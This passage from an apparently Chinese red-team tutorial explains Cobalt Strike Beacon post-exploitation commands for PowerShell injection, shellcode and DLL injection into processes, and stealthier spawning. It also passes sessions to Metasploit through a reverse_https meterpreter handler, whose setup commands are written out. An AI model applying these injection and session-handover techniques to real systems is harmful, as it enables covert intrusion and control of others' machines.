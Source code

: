 psinject：将非托管的 PowerShell 注入到一个特定的进程中并从此位置运行命令。

powershell-import：导入 PowerShell 脚本到 Beacon 中。直接运行 powershell-import + 脚本文件路径即可，但是这个脚本导入命令一次仅能保留一个 PowerShell 脚本，再导入一个新脚本的时候，上一个脚本就被覆盖了，因此可以通过导入一个空文件来清空 Beacon 中导入的脚本。

powershell get-help：获取 PowerShell 命令的相关帮助信息。比如想获取 PowerShell 下 get-process 命令的帮助，就需要输入`powershell get-help  get-process`

execute-assembly：将一个本地的 .NET 可执行文件作为 Beacon 的后渗透任务来运行。

setenv：设置一个环境变量。

## 2、会话传递

**会话传递相关命令**

Beacon 被设计的最初目的就是向其他的 CS 监听器传递会话。

`spawn`：进行会话的传递，也可直接右击会话选择`spawn`命令进行会话的选择。默认情况下，`spawn`命令会在 rundll32.exe 中派生一个会话。为了更好的隐蔽性，可以找到更合适的程序（如 Internet Explorer） 并使用`spawnto`命令来说明在派生新会话时候会使用 Beacon 中的哪个程序。

`spawnto`：该命令会要求指明架构（x86 还是 x64）和用于派生会话的程序的完整路径。单独输入`spawnto`命令然后按 enter 会指示 Beacon 恢复至其默认行为。

`inject`：输入`inject + 进程 id + 监听器名`来把一个会话注入一个特定的进程中。使用 ps 命令来获取一个当前系统上的进程列表。使用`inject [pid] x64`来将一个64位 Beacon 注入到一个 64位进程中。

`spawn`和`inject`命令都将一个 payload stage 注入进内存中。如果 payload stage 是 HTTP、HTTPS 或 DNS Beacon 并且它无法连接到你，那么将看不到一个会话。如果 payload stage 是一个绑定的 TCP 或 SMB 的 Beacon，这些命令会自动地尝试连接到并控制这些 payload。

`dllinject`：`dllinject + [pid]`来将一个反射性 DLL 注入到一个进程中。

`shinject`：使用`shinject [pid] [架构] [/路径/.../file.bin]`命令来从一个本地文件中注入 shellcode 到一个目标上的进程中。

`shspawn`：使用`shspawn [架构] [/路径/.../file.bin]`命令会先派生一个新进程（这个新进程是 spawn to 命令指定的可执行文件），然后把指定的 shellcode 文件（ file.bin ）注入到这个进程中。

`dllload`：使用`dllload [pid] [c:\路径\...\file.dll]`来在另一个进程中加载磁盘上的 DLL文件。

**会话传递使用场景**

1、将当前会话传递至其他CS团队服务器中，直接右击`spawn`选择要传递的监听器即可。

2、将当前会话传递至MSF中，这里简单做一下演示。

首先，在MSF中，为攻击载荷新建一个payload

````
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 192.168.175.156
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > exploit -j
````

随后，在CS中新建一个外部`Foreign`监听器，这里设置的监听IP与端口和MSF中的一致即可，随后在CS中利用`spawn`选择刚新建的外部监听器，MSF中即可返回会话。

## 3、文件系统

浏览会话系统文件位置在右击会话处，选择 `Explore --> File Browser`即可打开。在这里可以对当前会话下的文件进行浏览、上传、下载、删除等操作。
